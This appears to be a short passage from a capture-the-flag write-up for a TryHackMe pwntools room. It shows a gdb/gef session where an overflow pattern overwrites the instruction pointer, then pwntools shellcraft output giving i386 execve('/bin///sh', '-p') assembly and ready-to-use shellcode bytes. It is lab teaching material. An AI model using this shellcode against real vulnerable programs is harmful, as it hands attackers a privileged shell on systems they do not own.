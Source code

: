 ```python

```bash

gef➤  r < test2
Starting program: /root/CTF/THM/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal < test2
Hello There. Do you have an input for me?

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf00  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x61616172 ("raaa"?)
$ecx   : 0xf7fa6580  →  0xfbad2098
$edx   : 0xfbad2098
$esp   : 0xffffcf50  →  0xffffcf00  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"

```

## Using Shellcraft to create our shell:

```bash

┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/shellcraft]
└─# shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
    /* execve(path='/bin///sh', argv=['sh', '-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push 'sh\x00-p\x00\x00' */
    push 0x70
    push 0x1010101
    xor dword ptr [esp], 0x2c016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 7
    pop ecx
    add ecx, esp
    push ecx /* '-p\x00' */
    push 8
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

                                                                                          
┌──(root💀kali)-[~/…/THM/IntroToPwntools/IntroToPwntools/shellcraft]
└─# shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

```
